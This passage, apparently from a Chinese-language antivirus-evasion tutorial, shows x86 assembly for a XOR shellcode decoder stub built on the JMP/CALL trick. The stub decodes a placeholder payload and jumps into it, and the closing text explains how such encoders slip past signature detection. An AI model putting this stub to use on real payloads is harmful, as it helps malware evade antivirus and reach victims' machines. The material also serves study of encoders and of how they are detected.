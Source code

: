 

```
1.; #===============================#
2.; |ESI -&gt; Pointer to shellcode |
3.; |EDI -&gt; Pointer to key |
4.; |ECX -&gt; Shellcode index counter |
5.; |EDX -&gt; Key index counter |
6.; |AL -&gt; Shellcode byte holder |
7.; |BL -&gt; Key byte holder |
8.; #===============================#
9.;
10.[BITS 32]
11.[ORG 0]
12.
13.JMP GetShellcode ; Jump to shellcode label
14.Stub: 
15.POP ESI ; Pop out the address of shellcode to ESI register 
16.PUSH ESI ; Save the shellcode address to stack 
17.XOR ECX,ECX ; Zero out the ECX register
18.GetKey: 
19.CALL SetKey ; Call the SetKey label
20.Key: DB &lt;Key&gt; ; Decipher key
21.KeyEnd: EQU $-Key ; Set the size of the decipher key to KeyEnd label
22.SetKey:
23.POP EDI ; Pop the address of decipher key to EDI register
24.XOR EDX,EDX ; Zero out the EDX register
25.Decipher: 
26.MOV AL,[ESI] ; Move 1 byte from shellcode to AL register
27.MOV BL,[EDI] ; Move 1 byte from decipher key to BL register
28.XOR AL,BL ; Make a logical XOR operation between AL ^ BL
29.MOV [ESI],AL ; Move back the deciphered shellcode byte to same index
30.INC ESI ; Increase the shellcode index
31.INC EDI ; Increase the key index
32.INC ECX ; Increase the shellcode index counter
33.INC EDX ; Increase the key index counter
34.CMP ECX, End ; Compare the shellcode index counter with shellcode size 
35.JE Fin ; If index counter is equal to shellcode size, jump to Fin label
36.CMP EDX,KeyEnd ; Compare the key index counter with key size 
37.JE GetKey ; If key index counter is equal to key size, jump to GetKey label for reseting the key
38.JMP Decipher ; Repeate all operations
39.Fin: ; In here deciphering operation is finished
40.RET ; Execute the shellcode
41.GetShellcode:
42.CALL Stub ; Jump to Stub label and push the address of shellcode to stack
43.Shellcode: DB &lt;Shellcode&gt;
44.
45.End: EQU $-Shellcode ; Set the shellcode size to End label
```

因为代码非常好理解，我将不浪费时间逐行解释它了，使用JMP/CALL技巧能在运行时得到shellcode和密钥的地址，然后在shellcode和密钥的每个字节之间执行一个逻辑XOR操作，每次解密密钥到末尾，它将重置密钥为它的起始地址，在完成解码操作后，将跳转到shellcode，使用更长的XOR密钥能提高shellcode的随机性，但是也提高了代码块的熵，因此要避免使用太长的解码密钥，使用基础的逻辑操作（如XOR，NOT，ADD，SUB，ROR，ROL）能有几百种方式编码shellcode，在每种编码器中有无穷可能的shellcode输出，AV产品在解码序列之前检测到任何shellcode的特征的概率很低，因为这种AV产品也开发了启发式引擎，它能够检测解密和代码块中的解码循环。当编写shellcode编码器时，几乎没有用于绕过用于检测解码循环的静态方法的有效方式。
